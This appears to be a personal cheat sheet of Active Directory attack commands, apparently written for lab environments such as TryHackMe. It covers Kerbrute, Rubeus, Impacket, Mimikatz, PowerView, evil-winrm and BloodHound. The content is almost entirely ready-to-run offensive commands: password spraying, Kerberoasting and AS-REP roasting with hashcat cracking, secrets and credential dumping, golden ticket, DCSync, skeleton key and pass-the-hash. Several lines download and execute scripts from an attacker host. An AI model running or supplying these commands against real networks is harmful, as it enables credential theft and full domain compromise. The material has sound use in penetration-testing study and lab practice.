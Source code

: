 # KERBRUTE
## Path
~/hack/tools/kerbrute-1.0.3

## Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

## Enumeration
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

## Password Spray
./kerbrute_linux_amd64 passwordspray --dc controller.local -d controller.local ./wordlist.txt Password1

# RUBEUS

## Harvest TGT's from Host
Rubeus.exe harvest /interval:30 

## Password Spray
Rubeus.exe brute /password:Password1 /noticket

## Kerberoast
Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash.txt Pass.txt

## AS-REP Roasting -Pre-Auth Disabled
	* Rubeus.exe asreproast  - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes
	* Crack those Hashes w/ hashcat - 
		○ 1.) Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file
		○ 2.) Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....
		○ 3.) hashcat -m 18200 hash.txt Pass.txt - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200
	

# IMPACKET

## KERBEROAST
Kerberoast - EXECUTED REMOTELY FROM KALI, ENUMRATES AND REQUESTS ALL KERBEROASTABLE ACCOUNTS
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.105.214 -request

## AS-REP Roasting
GetNPUsers.py
GetNPUsers.py <DOMAIN NAME>/ -no-pass -usersfile usernames.txt

## Dump Secrets
secretsdump.py thm-ad/backup:'backup2517860'@thm-ad

# MIMIKATZ

## Download and Dump Creds
iex (iwr http://10.9.80.37/Invoke-Mimikatz.ps1 -UseBasicParsing);Invoke-Mimikatz -DumpCreds

## Dump Hashes
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
hashcat -m 1000 <hash> rockyou.txt

## Export Tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

## Pass the Ticket
 Invoke-Mimikatz -Command '"kerberos::ptt [0;59dfa]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi"'

## Golden Ticket Attack

	1. Execute mimikatz on DC as DA to get krbtgt hash
		a. Invoke-Mimikatz -Command '"lsadump::lsa /patch"' –Computername dcorp-dc 
	2. On any machine 
		a. Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:domain.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges. Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC: 
	1. Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
	2. Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500 /groups:512 /ptt"'

## Skeleton Key
Invoke-Mimikatz -Command '"misc::skeleton"'

# POWERVIEW

iex (iwr http://10.9.80.37/PowerView3.ps1 -UseBasicParsing)

# EVIL-WINRM

## PTH
evil-winrm -i thm-ad -u administrator -H 0e0363213e37b94221497260b0bcb4fc

# BLOODHOUND

iex (iwr http://10.9.80.37/SharpHound.ps1 -UseBasicParsing)
Invoke-BloodHound -CollectionMethod ALL
